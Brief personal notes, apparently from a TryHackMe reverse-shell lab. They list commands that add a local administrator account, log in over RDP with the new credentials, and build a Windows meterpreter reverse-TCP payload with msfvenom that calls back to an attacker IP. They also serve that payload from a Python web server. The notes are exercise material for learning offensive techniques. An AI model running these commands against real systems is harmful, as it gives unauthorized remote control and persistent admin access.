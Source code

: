 
```
net user [username] [password] /add
```


```
net localgroup administrators [username] /add
```

![[Pasted image 20240723203028.png]]

We have added the user and will try to RDP now

```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.136.169 /u:testing /p:'testing123'
```

Was able to add the user and got the RDP 
![[Pasted image 20240723203305.png]]


Will get reverse shell through windows using netcat and socat
![[Pasted image 20240723204235.png]]


Let's try with SOCAT
![[Pasted image 20240724020728.png]]


I 1st created the rev shell using msfvenom 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.167.78 LPORT=443 -f exe -o rev.exe
```

and than i fire up a python server
```
python3 -m http.server 8080 
```


![[Pasted image 20240724022608.png]]


And i think yes both staged and stagless worked in the end.
![[Pasted image 20240724023540.png]]

As you can see the size difference in both the payload
![[Pasted image 20240724023657.png]]

Reference 
https://thedutchhacker.com/what-the-shell-on-tryhackme/

